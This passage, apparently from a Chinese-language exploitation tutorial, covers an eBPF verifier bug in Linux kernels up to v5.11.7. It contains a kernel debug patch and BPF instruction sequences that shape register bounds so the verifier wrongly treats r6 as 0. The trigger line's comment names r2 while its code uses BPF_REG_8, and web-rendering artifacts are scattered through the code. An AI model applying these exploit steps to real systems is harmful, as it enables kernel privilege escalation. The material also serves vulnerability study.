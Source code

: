 ```
static u64 ___bpf_prog_run(u64 *regs, const struct bpf_insn *insn)
`{`
...
    int lol = 0;

   // Check the first instruction to match the first instruction of  
   // the target eBPF program to debug, so output isn't printed for  
   // every eBPF program that is ran. 只打印部分指令的信息
    if(insn-&gt;code == 0xb7)
    `{`
        lol = 1;
    `}`


select_insn:
        if(lol)
        `{`
            printk("instruction is: %0x\n", insn-&gt;code);
            printk("r0: %llx, r1: %llx, r2: %llx\n", regs[0], 
            regs[1], regs[2]);
            ...
        `}`
        goto *jumptable[insn-&gt;code];
...
`}`
```

## 2. 漏洞利用 Linux v5.11.7 及以前版本

**特点**：我们采用`Linux v5.11` 版本的内核进行测试，特点是不需要绕过一种ALU Sanitation，之后我们会详细介绍。

**总目标**：构造 `r6` 寄存器，使得 `verifier` 认为 `r6` 等于0，但实际执行时等于1。

#### <a class="reference-link" name="2-1%20%E8%A7%A6%E5%8F%91%E6%BC%8F%E6%B4%9E"></a>2-1 触发漏洞

首先，我们需要构造出两个寄存器的值状态，分别为`var_off = `{`mask = 0xFFFFFFFF00000000; value = 0x1`}`` 和 `var_off = `{`mask = 0x0; value = 0x100000002`}``。然后触发漏洞，得到 `r6` 的 `u32_max_value = 0 &lt; u32_min_value = 1`。

**注意**：实际从map传入的 `r5 = r6 = 0`。

```
// (1) 构造 r6: var_off = `{`mask = 0xFFFFFFFF00000000; value = 0x1`}`
        BPF_MAP_GET(0, BPF_REG_5),                        // (79) r5 = *(u64 *)(r0 +0) 从MAP传入值，这样其 mask=0xffffffffffffffff
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_5),            // (bf) r6 = r5

        BPF_LD_IMM64(BPF_REG_2, 0xFFFFFFFF),            // (18) r2 = 0xffffffff
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),            // (67) r2 &lt;&lt;= 32         0xFFFFFFFF00000000
        BPF_ALU64_REG(BPF_AND, BPF_REG_6, BPF_REG_2),    // (5f) r6 &amp;= r2  高32位unknown, 低32位known为0
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 1),            // (07) r6 += 1  `{`mask = 0xFFFFFFFF00000000, value = 0x1`}`

// (2) 构造 r2: var_off = `{`mask = 0x0; value = 0x100000002`}`
        BPF_LD_IMM64(BPF_REG_2, 0x1),                    // (18) r2 = 0x1
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),            // (67) r2 &lt;&lt;= 32         0x10000 0000
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 2),            // (07) r2 += 2  `{`mask = 0x0; value = 0x100000002`}`

// (3) trigger the vulnerability
        BPF_ALU64_REG(BPF_AND, BPF_REG_6, BPF_REG_8),     // (5f) r6 &amp;= r2         r6: u32_min_value=1, u32_max_value=0
```